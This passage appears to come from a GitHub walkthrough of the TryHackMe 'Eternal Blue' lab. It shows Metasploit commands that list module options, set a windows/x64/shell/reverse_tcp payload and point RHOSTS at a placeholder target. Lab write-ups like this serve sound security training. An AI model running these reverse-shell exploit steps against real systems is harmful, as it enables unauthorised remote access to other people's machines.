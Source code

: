 ```bash
show options
```
![alt text](https://github.com/jeremydowdy/Eternal-Blue-THM-walkthrough/blob/main/Screenshot%202024-02-22%20135917.png)

As you can see from the output, there are muiltiple requirements, most of which are already set. The only option marked required that isn't already set is **RHOSTS**.

_** Be sure to follow the instructions on THM before running the exploit**_

**From THM: Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**
```bash
set payload windows/x64/shell/reverse_tcp
```

But we are not ready yet, we must set the RHOSTS

To set the RHOSTS use the command _set_

```bash
set RHOSTS <target_IP>
```
